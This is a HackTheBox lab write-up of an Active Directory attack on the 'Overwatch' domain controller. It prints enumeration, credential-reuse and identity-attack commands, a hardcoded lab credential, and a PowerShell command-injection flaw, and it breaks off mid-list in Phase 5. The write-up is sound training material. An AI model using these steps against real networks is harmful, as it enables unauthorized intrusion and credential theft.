

# Overwatch, Complete Penetration Test Write-Up

**Target:** `10.129.244.81` (`overwatch.htb`, host `S200401`)
**OS:** Windows Server 2022 (Domain Controller)
**Difficulty:** Medium
**Pentester:** RanvenHex
**Attacker IP (tun0):** `10.10.15.7`
**Date:** 21 November 2026
**Authorization:** HackTheBox lab, explicit authorization for all testing.



---

## Table of Contents

1. [Executive Summary](#executive-summary)
2. [Phase 1, Reconnaissance](#phase-1--reconnaissance)
3. [Phase 2, SMB Enumeration (Guest / Blank Password)](#phase-2--smb-enumeration-guest--blank-password)
4. [Phase 3, Decompiling the .NET Application](#phase-3--decompiling-the-net-application)
5. [Phase 4, Credential Validation and AD Enumeration](#phase-4--credential-validation-and-ad-enumeration)
6. [Phase 5, Exhausting Identity Attack Paths](#phase-5--exhausting-identity-attack-paths)
7. [Phase 6, MSSQL (Non-Standard Port) and Linked Server](#phase-6--mssql-non-standard-port-and-linked-server)
8. [Phase 7, Foothold (WinRM as `sqlmgmt`)](#phase-7--foothold-winrm-as-sqlmgmt)
9. [Phase 8, Privilege Escalation to SYSTEM (localhost SOAP injection)](#phase-8--privilege-escalation-to-system-localhost-soap-injection)
10. [Complete Attack Chain](#complete-attack-chain)
11. [Vulnerabilities Found](#vulnerabilities-found)
12. [Final Flags](#final-flags)
13. [Mitigations](#mitigations)

---

## Executive Summary

Overwatch is a Medium-rated Windows Active Directory Domain Controller. The chain is driven by **misconfiguration and insecure application development**, not a single exploit:

1. **Guest account enabled with a blank password**, with read access to a hidden SMB share `software$`.
2. A **custom .NET monitoring application** on that share leaks a **hardcoded MSSQL credential** (`sqlsvc`) when decompiled.
3. That credential logs into **MSSQL on a non-standard port (6520)**, where a **linked server `SQL07`** points at an **unresolvable hostname**.
4. **ADIDNS poisoning** + **Responder** capture the linked server's **cleartext `sqlmgmt` credential**.
5. `sqlmgmt` has **WinRM** access → foothold.
6. A **SOAP/WCF service on localhost:8000** exposes `KillProcess()`, which concatenates user input into PowerShell → **command injection as NT AUTHORITY\SYSTEM**.

**Impact:** Complete compromise of the `overwatch.htb` domain and its DC.

---

## Phase 1, Reconnaissance

### 1.1 Full Service Scan

**Objective:** identify ports, services, versions, and the host's role.

Before touching anything else, the standard first move on any box is a full Nmap sweep, `-A` pulls service/version detection, default scripts, and OS fingerprinting in one pass, so a single scan tells us what we're dealing with (domain controller, web server, etc.) and where to look next.

**Command:**
```bash
nmap -A -T4 10.129.244.81
```

<details>
<summary><strong>Output</strong> (click to expand)</summary>

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-21 18:07 +0500
Nmap scan report for 10.129.244.81 (10.129.244.81)
Host is up (0.38s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-21 13:08:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: OVERWATCH
|   NetBIOS_Domain_Name: OVERWATCH
|   NetBIOS_Computer_Name: S200401
|   DNS_Domain_Name: overwatch.htb
|   DNS_Computer_Name: S200401.overwatch.htb
|   DNS_Tree_Name: overwatch.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-21T13:08:51+00:00
| ssl-cert: Subject: commonName=S200401.overwatch.htb
| Not valid before: 2026-11-20T13:04:08
|_Not valid after:  2027-05-22T13:04:08
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: S200401; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```
</details>

**Interpretation:**

| Port | Meaning |
|---|---|
| 53 | DNS, DC role. |
| 88, 464 | Kerberos, AD confirmed. |
| 389, 3268 | LDAP / Global Catalog, `Domain: overwatch.htb`. |
| 636, 3269 | `tcpwrapped` = LDAPS/GC over TLS (needs TLS to banner). Not dead. |
| 445 | SMB, **signing required** → relay dead. |
| 3389 | RDP, `Product_Version: 10.0.20348` → **Windows Server 2022**. |
| 5985 | WinRM, post-credential shell. |
| 987 filtered | Host firewall. |

**Confirmed:** Windows Server 2022 DC, domain `overwatch.htb`, host `S200401.overwatch.htb`.

### 1.2 Hosts File

The scan confirmed this is a domain controller, and AD tooling (Kerberos especially) resolves services by name, not raw IP. Without a hosts entry, every later Kerberos-authenticated tool would fail on an SPN mismatch, so this has to be set up before anything else touches the domain.

```bash
echo "10.129.244.81  overwatch.htb  S200401.overwatch.htb" | sudo tee -a /etc/hosts
```

**Why:** AD tools use names, not IPs. Kerberos SPNs are name-based; without this, Kerberos auth fails with SPN mismatch.

---

## Phase 2, SMB Enumeration (Guest / Blank Password)

### 2.1 Guest Authentication and Share Listing

**Objective:** test anonymous/guest access and enumerate shares.

With a DC confirmed and SMB open, the next logical move is to check whether unauthenticated or guest access works at all, a huge number of AD boxes leave the built-in Guest account reachable, and if it authenticates, the share list it can see becomes the starting point for everything else.

```bash
nxc smb overwatch.htb -u 'guest' -p '' --shares
```

**Output:**
```
SMB  10.129.244.81  445  S200401  [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB  10.129.244.81  445  S200401  [+] overwatch.htb\guest:
SMB  10.129.244.81  445  S200401  [*] Enumerated shares
SMB  10.129.244.81  445  S200401  Share           Permissions            Remark
SMB  10.129.244.81  445  S200401  -----           -----------            ------
SMB  10.129.244.81  445  S200401  ADMIN$                                 Remote Admin
SMB  10.129.244.81  445  S200401  C$                                     Default share
SMB  10.129.244.81  445  S200401  IPC$            READ                   Remote IPC
SMB  10.129.244.81  445  S200401  NETLOGON                               Logon server share
SMB  10.129.244.81  445  S200401  software$       READ
SMB  10.129.244.81  445  S200401  SYSVOL                                 Logon server share
```

**Interpretation:**

- **`[+] guest:`** → guest authenticated with a **blank password**. Misconfiguration.
- `(signing:True)` → SMB relay not viable.
- `(Null Auth:True)` → null sessions also allowed (secondary).
- `NETLOGON` / `SYSVOL` → **no permissions** for guest (normally domain users can read SYSVOL).
- **`software$ ... READ`** → non-default, hidden share readable by guest. **This is the anomaly.**

**Vulnerability:** guest enabled with blank password; hidden share readable by guest.

### 2.2 Browse the Share

`software$` is a non-default share name and not something Windows ships by default, which means someone deliberately put it there, and since guest can read it, it's worth looking inside before trying anything more aggressive.

```bash
smbclient //overwatch.htb/software$ -U 'overwatch.htb\guest%'
```

```
smb: \> ls
  .                                  DH        0  Sat May 17 06:32:43 2025
  ..                                 DH        0  Sat May 17 06:27:07 2025
  EntityFramework.dll                AH  4991352  Fri Apr 17 01:38:42 2020
  EntityFramework.SqlServer.dll      AH   591752  Fri Apr 17 01:38:56 2020
  EntityFramework.SqlServer.xml      AH   163193  Fri Apr 17 01:38:56 2020
  EntityFramework.xml                AH  3738289  Fri Apr 17 01:38:40 2020
  Microsoft.Management.Infrastructure.dll     AH    36864  Mon Jul 17 19:46:10 2017
  overwatch.exe                      AH     9728  Sat May 17 06:19:24 2025
  overwatch.exe.config               AH     2163  Sat May 17 06:02:30 2025
  overwatch.pdb                      AH    30208  Sat May 17 06:19:24 2025
  System.Data.SQLite.dll             AH   450232  Mon Sep 30 01:41:18 2024
  System.Data.SQLite.EF6.dll         AH   206520  Mon Sep 30 01:40:06 2024
  System.Data.SQLite.Linq.dll        AH   206520  Mon Sep 30 01:40:42 2024
  System.Data.SQLite.xml             AH  1245480  Sat Sep 28 23:48:00 2024
  System.Management.Automation.dll     AH   360448  Mon Jul 17 19:46:10 2017
  System.Management.Automation.xml     AH  7145771  Mon Jul 17 19:46:10 2017
  x64                                DH        0  Sat May 17 06:32:33 2025
  x86                                DH        0  Sat May 17 06:32:33 2025
```

**Interpretation:** a .NET monitoring app. **`overwatch.exe.config` is the highest-value file**, plaintext config, no decompiling needed. `.pdb` present → built in debug mode.

### 2.3 Read the Config

Before spending time decompiling the executable, it makes sense to check the `.config` file first, `.config` files for .NET apps are plain XML, so if there's anything useful (connection strings, service endpoints) it can be read directly with zero reverse-engineering effort.

```bash
get overwatch.exe.config
exit
cat overwatch.exe.config
```

**Output:**
```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <configSections>
    <section name="entityFramework" ... />
  </configSections>
  <system.serviceModel>
    <services>
      <service name="MonitoringService">
        <host>
          <baseAddresses>
            <add baseAddress="http://overwatch.htb:8000/MonitorService" />
          </baseAddresses>
        </host>
        <endpoint address="" binding="basicHttpBinding" contract="IMonitoringService" />
        <endpoint address="mex" binding="mexHttpBinding" contract="IMetadataExchange" />
      </service>
    </services>
    <behaviors>
      <serviceBehaviors>
        <behavior>
          <serviceMetadata httpGetEnabled="True" />
          <serviceDebug includeExceptionDetailInFaults="True" />
        </behavior>
      </serviceBehaviors>
    </behaviors>
  </system.serviceModel>
  <entityFramework>
    <providers>
      <provider invariantName="System.Data.SqlClient" ... />
      <provider invariantName="System.Data.SQLite.EF6" ... />
    </providers>
  </entityFramework>
  <system.data>
    <DbProviderFactories>
      ...
    </DbProviderFactories>
  </system.data>
</configuration>
```

**Findings:**

| Item | Meaning |
|---|---|
| `baseAddress="http://overwatch.htb:8000/MonitorService"` | WCF service on **port 8000** (not in Nmap, filtered). |
| `binding="basicHttpBinding"` | Plain SOAP 1.1 over HTTP, easy to script. |
| `endpoint address="mex"`, `httpGetEnabled="True"` | **WSDL metadata exposed**, free API documentation. |
| `includeExceptionDetailInFaults="True"` | **Debug mode**, full stack traces on errors. |
| SQLite providers | Local data store; no remote DB creds here. |

**New attack surface:** port 8000 + a SOAP service. Also note `System.Management.Automation.dll` is bundled → the app likely **runs PowerShell**.

### 2.4 Check Port 8000 Reachability

The config just revealed a service listening on port 8000, but Nmap's earlier full scan never showed it, so before assuming it's exploitable from the outside, it needs a direct, targeted check against that single port.

```bash
nmap -Pn -p 8000 10.129.244.81
```

**Output:**
```
PORT     STATE    SERVICE
8000/tcp filtered http-alt
```

**Interpretation:** **filtered** = firewall drop. Port 8000 is bound to localhost/restricted, **post-foothold target**, not pre-foothold. Record and move on.

---

## Phase 3, Decompiling the .NET Application

**Objective:** extract secrets and understand the service contract.

The config file exposed the service's existence but not its internals. Since `.pdb` symbols are present (debug build) and the executable is plain .NET, decompiling it back to near-original C# source is both possible and far more informative than guessing from the WSDL alone, it shows exactly how `KillProcess` handles input, and whether there are any hardcoded credentials sitting in the code.

### 3.1 Download and Decompile

```bash
smbclient //overwatch.htb/software$ -U 'overwatch.htb\guest%'
# inside: mget overwatch.exe overwatch.pdb ; exit
dotnet tool install -g ilspycmd
ilspycmd overwatch.exe > overwatch.decompiled.cs
```

### 3.2 Grep for Secrets

The decompiled output is large, so rather than reading it line by line, grep for the keywords that commonly surround credentials and database logic (`password`, `connection`, SQL verbs) to jump straight to the interesting parts.

```bash
grep -rniE "select|insert|update|delete|sqlite|password|connection" ./decompiled
```

**Output:**
```
./decompiled/MonitoringService.cs:17:   private readonly string connectionString = "Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;";
./decompiled/MonitoringService.cs:64:           WqlEventQuery val = new WqlEventQuery("SELECT * FROM Win32_ProcessStartTrace");
./decompiled/MonitoringService.cs:80:           SqlConnection val = new SqlConnection(connectionString);
./decompiled/MonitoringService.cs:83:                   SqlCommand val2 = new SqlCommand("INSERT INTO EventLog (Timestamp, EventType, Details) VALUES (GETDATE(), '" + type + "', '" + detail + "')", val);
./decompiled/MonitoringService.cs:84:                   ((DbConnection)(object)val).Open();
./decompiled/Program.cs:45:                     SqlConnection val = new SqlConnection("Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;");
./decompiled/Program.cs:53:                             SQLiteConnection val3 = new SQLiteConnection("Data Source=" + tempFileName + ";Version=3;");
./decompiled/Program.cs:59:                             string commandText = "INSERT INTO EventLog (Timestamp, EventType, Details) VALUES (GETDATE(), 'URLVisit', '" + text2 + "')";
./decompiled/Program.cs:63:                             ((DbConnection)(object)val3).Close();
```

**Findings:**

| Finding | Line | Significance |
|---|---|---|
| **`User Id=sqlsvc;Password=TI0LKcfHzZw1Vv`** | MonitoringService.cs:17, Program.cs:45 | **Hardcoded MSSQL credential.** Test as a **domain** credential, not just SQL. |
| `"INSERT ... '" + detail + "'"` | MonitoringService.cs:83 | **SQL injection** in `LogEvent`, `detail` concatenated. |
| `"INSERT ... '" + text2 + "'"` | Program.cs:59 | Same pattern in `Program.cs`. |

### 3.3 Read the Interface and Service

The grep found the credential and hinted at injection, but to actually understand what the SOAP service accepts as input and how it processes it, the interface definition and the method body need to be read in full.

```bash
cat ./decompiled/IMonitoringService.cs
cat ./decompiled/MonitoringService.cs
```

**Output:**
```csharp
using System.ServiceModel;

[ServiceContract]
public interface IMonitoringService
{
        [OperationContract]
        string StartMonitoring();

        [OperationContract]
        string StopMonitoring();

        [OperationContract]
        string KillProcess(string processName);
}
```

```csharp
public class MonitoringService : IMonitoringService
{
        private readonly string connectionString = "Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;";

        public string StartMonitoring() { ... }

        public string StopMonitoring() { ... }

        private void LogEvent(string type, string detail)
        {
                SqlConnection val = new SqlConnection(connectionString);
                try
                {
                        SqlCommand val2 = new SqlCommand("INSERT INTO EventLog (Timestamp, EventType, Details) VALUES (GETDATE(), '" + type + "', '" + detail + "')", val);
                        ((DbConnection)(object)val).Open();
                        ((DbCommand)val2).ExecuteNonQuery();
                }
                finally { ((IDisposable)val)?.Dispose(); }
        }

        public string KillProcess(string processName)
        {
                string text = "Stop-Process -Name " + processName + " -Force";
                try
                {
                        Runspace val = RunspaceFactory.CreateRunspace();
                        try
                        {
                                val.Open();
                                Pipeline val2 = val.CreatePipeline();
                                try
                                {
                                        val2.Commands.AddScript(text);
                                        val2.Commands.Add("Out-String");
                                        Collection<PSObject> collection = val2.Invoke();
                                        val.Close();
                                        ...
                                }
                                finally { ((IDisposable)val2)?.Dispose(); }
                        }
                        finally { ((IDisposable)val)?.Dispose(); }
                }
                catch (Exception ex) { return "Error: " + ex.Message; }
        }
}
```

**Findings:**

| Finding | Code | Significance |
|---|---|---|
| **3 operations only** | `StartMonitoring`, `StopMonitoring`, `KillProcess` | The service menu. Only `KillProcess` takes input, the injectable one. |
| **Command injection** | `"Stop-Process -Name " + processName + " -Force"` → `Commands.AddScript(text)` | `processName` concatenated into PowerShell. **`;` chains, `#` comments out `-Force`.** |
| **SQL injection** | `"INSERT ... '" + detail + "'"` | `detail` (process name) concatenated into SQL. |
| **Runs PowerShell** | `RunspaceFactory.CreateRunspace()` | Confirms `System.Management.Automation` use. |

**Note:** you now have the full contract from the source, you **do not need** `?wsdl`.

**Vulnerabilities:** CWE-798 (hardcoded credential), CWE-78 (OS command injection), CWE-89 (SQL injection).

---

## Phase 4, Credential Validation and AD Enumeration

### 4.1 Validate the Credential

The credential found in the binary was declared as a SQL login, but it's still worth checking whether it's actually shared with (or identical to) a domain account, service accounts are frequently reused this way, and a hit here immediately upgrades the credential's value from "maybe useful against MSSQL" to "a real domain foothold."

```bash
nxc smb overwatch.htb -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv'
```

**Output:**
```
SMB  10.129.244.81  445  S200401  [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB  10.129.244.81  445  S200401  [+] overwatch.htb\sqlsvc:TI0LKcfHzZw1Vv
```

**Interpretation:** `[+]` → valid **domain** credential, not just SQL.

### 4.2 LDAP Enumeration

With a valid domain credential in hand, the next step is always to map the directory, pulling the full user and group list shows what else exists in the domain, which accounts look interesting, and where this credential sits in the privilege structure.

```bash
nxc ldap overwatch.htb -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv' --users --groups
```

**Output (key):**
```
LDAP  10.129.244.81  389  S200401  [*] Windows Server 2022 Build 20348 (name:S200401) (domain:overwatch.htb) (signing:None) (channel binding:No TLS cert)
LDAP  10.129.244.81  389  S200401  [+] overwatch.htb\sqlsvc:TI0LKcfHzZw1Vv
LDAP  10.129.244.81  389  S200401  [*] Enumerated 105 domain users: overwatch.htb
LDAP  10.129.244.81  389  S200401  -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP  10.129.244.81  389  S200401  Administrator                 2025-05-17 08:09:35 0        Built-in account for administering the computer/domain
LDAP  10.129.244.81  389  S200401  Guest                         2025-05-17 09:34:27 0        Built-in account for guest access to the computer/domain
LDAP  10.129.244.81  389  S200401  krbtgt                        2025-05-17 05:08:45 0        Key Distribution Center Service Account
LDAP  10.129.244.81  389  S200401  sqlsvc                        2025-05-17 05:47:43 0
LDAP  10.129.244.81  389  S200401  sqlmgmt                       2025-05-17 06:24:21 0
LDAP  10.129.244.81  389  S200401  Charlie.Moss                  2025-05-17 08:05:41 0
...
LDAP  10.129.244.81  389  S200401  -Group-                                  -Members- -Description-
LDAP  10.129.244.81  389  S200401  Administrators                           3         Administrators have complete and unrestricted access to the computer/domain
LDAP  10.129.244.81  389  S200401  Users                                    3
LDAP  10.129.244.81  389  S200401  Guests                                   2
LDAP  10.129.244.81  389  S200401  Remote Desktop Users                     0
LDAP  10.129.244.81  389  S200401  Remote Management Users                  1         Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service)
LDAP  10.129.244.81  389  S200401  Domain Admins                            2
LDAP  10.129.244.81  389  S200401  Enterprise Admins                        1
LDAP  10.129.244.81  389  S200401  Schema Admins                            1
LDAP  10.129.244.81  389  S200401  employees                                100
```

**Key observations:**

| Finding | Significance |
|---|---|
| **105 users**, all `Last PW Set 2025-05-17` | Mass provisioned, spray candidates if needed. |
| **`sqlsvc`, `sqlmgmt`** | Two service accounts, likely a pair. |
| **`employees` group: 100 members** | The custom group, target set for reuse/spray. |
| **`Remote Management Users: 1`** | Someone can WinRM, **worth checking `sqlmgmt`**. |
| `Domain Admins: 2`, `Enterprise Admins: 1`, `Schema Admins: 1` | Privilege ladder. |

### 4.3 WinRM Check

`sqlsvc` is now a confirmed valid domain credential, so before chasing any identity attacks it's worth the five-second check of whether it can simply WinRM straight in, the cheapest possible path to a shell.

```bash
nxc winrm overwatch.htb -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv'
```

**Output:**
```
WINRM  10.129.244.81  5985  S200401  [*] Windows Server 2022 Build 20348 (name:S200401) (domain:overwatch.htb)
WINRM  10.129.244.81  5985  S200401  [-] overwatch.htb\sqlsvc:TI0LKcfHzZw1Vv
```

**Interpretation:** `sqlsvc` cannot WinRM. No direct shell, pivot to identity attacks.

---

## Phase 5, Exhausting Identity Attack Paths

With no direct shell available, the standard playbook for a credentialed-but-shell-less foothold in AD is to work through every common identity-abuse technique systematically, Kerberoasting, AS-REP roasting, AD CS misconfigurations, and BloodHound ACL abuse, and rule each one in or out before falling back to credential reuse/spraying.

### 5.1 Kerberoasting

Kerberoasting targets accounts with a Service Principal Name (SPN) set, since any authenticated user can request a ticket for them and crack it offline, it's the first thing to try whenever a domain credential is in hand.

```bash
GetUserSPNs.py overwatch.htb/sqlsvc:'TI0LKcfHzZw1Vv' -dc-ip 10.129.244.81 -request -outputfile kerberoast.txt
```

**Output:**
```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
No entries found!
```

**Interpretation:** **no SPNs** registered, Kerberoast dead. Note and move on.

### 5.2 AS-REP Roasting

AS-REP roasting targets accounts that don't require Kerberos pre-authentication, building the user list first, then checking each one, is the standard way to look for this since it doesn't even need valid creds for the targeted accounts, only a list of usernames.

First build the users file:

```bash
nxc ldap overwatch.htb -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv' --users | awk '{print $5}' | grep -E '^[A-Z][a-z]+\.[A-Z]' | sort -u > users.txt
wc -l users.txt
```

Then:

```bash
GetNPUsers.py overwatch.htb/ -dc-ip 10.129.244.81 -usersfile users.txt -format hashcat -outputfile asrep.txt -no-pass
```

**Result:** no `$krb5asrep$` hashes returned, all users require preauth. AS-REP dead.

### 5.3 AD CS (Certipy)

Active Directory Certificate Services misconfigurations (ESC1–ESC8 etc.) are one of the most common privilege-escalation vectors in modern AD environments, so checking whether AD CS is even deployed is a mandatory step before moving on.

```bash
certipy find -u 'sqlsvc@overwatch.htb' -p 'TI0LKcfHzZw1Vv' -dc-ip 10.129.244.81 -ldap-scheme ldap -ldap-port 389 -no-ldap-channel-binding -no-ldap-signing -vulnerable -stdout
```

**Output:**
```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 0 certificate templates
[*] Finding certificate authorities
[*] Found 0 certificate authorities
[*] Found 0 enabled certificate templates
[*] Finding issuance policies
[*] Found 1 issuance policy
[*] Found 0 OIDs linked to templates
[*] Enumeration output:
Certificate Authorities                 : [!] Could not find any CAs
Certificate Templates                   : [!] Could not find any certificate templates
```

**Interpretation:** **no AD CS deployed**, no certificate templates, no CA. Certipy path closed.

**Note on the first attempt:** the initial `certipy find` failed with `socket ssl wrapping error` because it defaulted to LDAPS (636), which is `tcpwrapped`. Adding `-ldap-scheme ldap -ldap-port 389 -no-ldap-channel-binding -no-ldap-signing` forced plain LDAP and worked.

### 5.4 BloodHound Collection

With Kerberoast, AS-REP, and AD CS all closed, the remaining way to find a privilege-escalation path is to graph the whole domain's ACLs and group memberships with BloodHound and look for any edge `sqlsvc` (or an account reachable from it) has outward onto a higher-privileged object.

```bash
bloodhound-python -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv' -d overwatch.htb -ns 10.129.244.81 -c All --zip
```

**Result:** zip produced and imported. Node inspection of `sqlsvc`:

```
Node Type: User
Display Name: sqlsvc
Object ID: S-1-5-21-2797066498-1365161904-233915892-1104
Admin Count: FALSE
Allows Unconstrained Delegation: FALSE
Do Not Require Pre-Authentication: FALSE
Domain FQDN: OVERWATCH.HTB
Enabled: TRUE
Password Never Expires: TRUE
Trusted For Constrained Delegation: FALSE
Inbound Object Control:
  ADMINISTRATOR@OVERWATCH.HTB
  ADAM.RUSSELL@OVERWATCH.HTB
  ADMINISTRATORS@OVERWATCH.HTB
  ENTERPRISE ADMINS@OVERWATCH.HTB
  DOMAIN ADMINS@OVERWATCH.HTB
  ACCOUNT OPERATORS@OVERWATCH.HTB
  KEY ADMINS@OVERWATCH.HTB
  ENTERPRISE KEY ADMINS@OVERWATCH.HTB
Outbound Object Control: (none)
```

**Interpretation:**

- **Outbound Object Control: none** → `sqlsvc` holds no ACL edges over other objects. **Dead-end principal.**
- **Inbound control** lists DA/EA etc., that's *they* control *us*, not the reverse.
- No delegation, preauth required → no ticket abuse.
- `Password Never Expires: TRUE`, hygiene issue, not exploitable alone.

### 5.5 Cross-Check via BloodHound Cypher

The GUI node view only shows `sqlsvc` directly, running raw Cypher queries against the Neo4j database double-checks the same negative results (and extends the check to `sqlmgmt` and the `employees` group) without relying on the GUI's summarization.

```cypher
MATCH (n {name: "SQLMGMT@OVERWATCH.HTB"})-[r]->(m)
WHERE r.isacl = true
RETURN n.name, type(r), m.name
```
→ empty (no outbound ACLs for `sqlmgmt`).

```cypher
MATCH (g:Group {name: "EMPLOYEES@OVERWATCH.HTB"})-[r]->(m)
WHERE r.isacl = true
RETURN g.name, type(r), m.name
```
→ empty.

```cypher
MATCH (n)-[:GetChanges|GetChangesAll]->(:Domain)
RETURN DISTINCT n.name, labels(n)
```
→ only Domain Admins / Enterprise Admins / Domain Controllers (expected).

```cypher
MATCH (u:User) WHERE u.hasspn = true AND u.enabled = true
RETURN u.name, u.serviceprincipalnames
```
→ empty (confirms Kerberoast negative).

```cypher
MATCH (u:User) WHERE u.dontreqpreauth = true
RETURN u.name, u.description
```
→ empty (confirms AS-REP negative).

**Conclusion:** the directory graph is flat for current access. Kerberoast, AS-REP, AD CS, delegation, outbound ACLs, **all closed**. Pivot to credential reuse and MSSQL.

### 5.6 Password Policy

Before attempting any password reuse or spraying against other accounts, it's worth checking the lockout policy first, spraying blind against a domain with a tight lockout threshold risks locking out real accounts and tipping off defenders.

```bash
nxc smb overwatch.htb -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv' --pass-pol
```

**Output:**
```
SMB  10.129.244.81  445  S200401  [+] Dumping password info for domain: OVERWATCH
SMB  10.129.244.81  445  S200401  Minimum password length: 7
SMB  10.129.244.81  445  S200401  Password history length: 24
SMB  10.129.244.81  445  S200401  Maximum password age: 41 days 23 hours 53 minutes
SMB  10.129.244.81  445  S200401  Password Complexity Flags: 000001
SMB  10.129.244.81  445  S200401      Domain Password Complex: 1
SMB  10.129.244.81  445  S200401  Minimum password age: 1 day 4 minutes
SMB  10.129.244.81  445  S200401  Reset Account Lockout Counter: 10 minutes
SMB  10.129.244.81  445  S200401  Locked Account Duration: 10 minutes
SMB  10.129.244.81  445  S200401  Account Lockout Threshold: None
SMB  10.129.244.81  445  S200401  Forced Log off Time: Not Set
```

**Interpretation:** **`Account Lockout Threshold: None`** → spraying is safe from lockout. Complexity ON + min length 7 → policy-shaped guesses plausible, but **reuse first**.

### 5.7 Credential Reuse and Sibling Account

With lockout confirmed as a non-issue, the cheapest next move is to test the one password already in hand (`sqlsvc`'s) against every other account that might plausibly reuse it, starting with the `employees` group (the obvious bulk target) and then the sibling service account `sqlmgmt`, since paired service accounts (`sqlsvc`/`sqlmgmt`) often share credentials.

Build the employees list:

```bash
ldapsearch -x -H ldap://10.129.244.81 -D "sqlsvc@overwatch.htb" -w 'TI0LKcfHzZw1Vv' \
  -b "DC=overwatch,DC=htb" \
  "(&(objectClass=group)(cn=employees))" member
```

<details>
<summary><strong>Output (members)</strong> (click to expand)</summary>

```
member: CN=Roger Spencer,OU=employees,DC=overwatch,DC=htb
member: CN=Emily Cooper,OU=employees,DC=overwatch,DC=htb
member: CN=Benjamin Harrison,OU=employees,DC=overwatch,DC=htb
member: CN=Brett Bailey,OU=employees,DC=overwatch,DC=htb
member: CN=Abdul Stevens,OU=employees,DC=overwatch,DC=htb
member: CN=Graham Parker,OU=employees,DC=overwatch,DC=htb
member: CN=Wendy Williams,OU=employees,DC=overwatch,DC=htb
member: CN=Elliot Green,OU=employees,DC=overwatch,DC=htb
member: CN=Brett Haynes,OU=employees,DC=overwatch,DC=htb
member: CN=Louise Walton,OU=employees,DC=overwatch,DC=htb
member: CN=Peter Slater,OU=employees,DC=overwatch,DC=htb
member: CN=Gary Elliott,OU=employees,DC=overwatch,DC=htb
member: CN=Jacob Wilson,OU=employees,DC=overwatch,DC=htb
member: CN=Declan Stone,OU=employees,DC=overwatch,DC=htb
member: CN=Timothy Smith,OU=employees,DC=overwatch,DC=htb
member: CN=Danielle Moore,OU=employees,DC=overwatch,DC=htb
member: CN=Dean Hobbs,OU=employees,DC=overwatch,DC=htb
member: CN=Frederick Hussain,OU=employees,DC=overwatch,DC=htb
member: CN=Jamie Gough,OU=employees,DC=overwatch,DC=htb
member: CN=Chloe Cox,OU=employees,DC=overwatch,DC=htb
member: CN=Ann Hill,OU=employees,DC=overwatch,DC=htb
member: CN=Samantha Scott,OU=employees,DC=overwatch,DC=htb
member: CN=Philip Harris,OU=employees,DC=overwatch,DC=htb
member: CN=Georgina Chambers,OU=employees,DC=overwatch,DC=htb
member: CN=Maureen Kirby,OU=employees,DC=overwatch,DC=htb
member: CN=Gail Sullivan,OU=employees,DC=overwatch,DC=htb
member: CN=Deborah Martin,OU=employees,DC=overwatch,DC=htb
member: CN=Glenn Field,OU=employees,DC=overwatch,DC=htb
member: CN=Mohammad Hill,OU=employees,DC=overwatch,DC=htb
member: CN=Elaine Walker,OU=employees,DC=overwatch,DC=htb
member: CN=Elaine Page,OU=employees,DC=overwatch,DC=htb
member: CN=Frank McCarthy,OU=employees,DC=overwatch,DC=htb
member: CN=Bernard Wood,OU=employees,DC=overwatch,DC=htb
member: CN=Irene Johnson,OU=employees,DC=overwatch,DC=htb
member: CN=Clare Bartlett,OU=employees,DC=overwatch,DC=htb
member: CN=Beverley Thompson,OU=employees,DC=overwatch,DC=htb
member: CN=Timothy Jackson,OU=employees,DC=overwatch,DC=htb
member: CN=Suzanne Hughes,OU=employees,DC=overwatch,DC=htb
member: CN=Tracey Barker,OU=employees,DC=overwatch,DC=htb
member: CN=Marilyn Griffiths,OU=employees,DC=overwatch,DC=htb
member: CN=Grace Curtis,OU=employees,DC=overwatch,DC=htb
